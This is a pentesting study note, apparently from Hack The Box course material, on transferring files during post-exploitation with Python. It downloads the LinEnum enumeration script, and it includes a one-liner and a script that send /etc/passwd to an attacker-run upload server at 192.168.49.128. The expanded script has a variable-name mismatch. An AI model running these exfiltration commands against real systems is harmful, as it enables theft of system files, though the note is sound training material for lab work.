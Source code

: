 ```yaml
---
tags:
  - Pentesting
  - Post-Exploitation
  - File_Transfer
---
```


## Download Operations using Python3

Python is a popular programming language. Currently, version 3 is supported, but we may find servers where Python version 2.7 still exists. `Python` can run one-liners from an operating system command line using the option `-c`. Let's see some examples:

#### Python 2 - Download

```shell-session
arenwald@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Python 3 - Download

```shell-session
arenwald@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

---
## Upload Operations using Python3

If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation. The Python3 [requests module](https://pypi.org/project/requests/) allows you to send HTTP requests (GET, POST, PUT, etc.) using Python. We can use the following code if we want to upload a file to our Python3 [uploadserver](https://github.com/Densaugeo/uploadserver).

#### Starting the Python uploadserver Module

```shell-session
arenwald@htb[/htb]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Uploading a File Using a Python One-liner

```shell-session
arenwald@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

Let's divide this one-liner into multiple lines to understand each piece better.

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

We can do the same with any other programming language. A good practice is picking one and trying to build an upload program.
